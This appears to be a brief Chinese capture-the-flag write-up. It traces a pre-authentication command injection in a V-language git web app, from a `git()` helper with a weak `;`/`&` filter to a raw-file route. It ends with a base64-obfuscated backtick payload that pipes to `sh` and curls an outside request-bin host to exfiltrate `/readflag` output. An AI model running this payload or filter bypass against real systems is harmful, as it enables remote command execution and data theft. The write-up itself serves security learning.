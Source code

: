 接下來一個一個看有沒有可以 preauth 又可以達到 command inject 的地方

於是發現了這個 function 看起來很多洞

```
fn (r &Repo) git(command string) string {
	if command.contains('&') || command.contains(';') {
		return ''
	}

	command_with_path := '-C ${r.git_dir} ${command}'

	command_result := os.execute('git ${command_with_path}')
	command_exit_code := command_result.exit_code
	if command_exit_code != 0 {
		println('git error ${command_with_path} with ${command_exit_code} exit code out=${command_result.output}')

		return ''
	}

	return command_result.output.trim_space()
}
```

接下來看有哪些 route 使用了這個 function ，去搜尋 .git(

![](https://hackmd.io/_uploads/ryc59PJHn.png)

發現這個 function 看起來有料，只要透過 path 就可以碰到上述的 function

```
['/:user/:repository/raw/:branch_name/:path...']
pub fn (mut app App) handle_raw(username string, repo_name string, branch_name string, path string) vweb.Result {
	user := app.get_user_by_username(username) or { return app.not_found() }
	repo := app.find_repo_by_name_and_user_id(repo_name, user.id)

	if repo.id == 0 {
		return app.not_found()
	}

	// TODO: throw error when git returns non-zero status
	file_source := repo.git('--no-pager show ${branch_name}:${path}')

	return app.ok(file_source)
}
```

接下來構造 payload，因為 git function 有檔 `;` `&`，但這個非常好繞，使用 base64 即可

```sh
`echo Y3VybCBodHRwczovL2VvdWR6dzlwaDNoaG5taC5tLnBpcGVkcmVhbS5uZXQ/b3VvPWAvcmVhZGZsYWdg | base64 -d | sh`
```
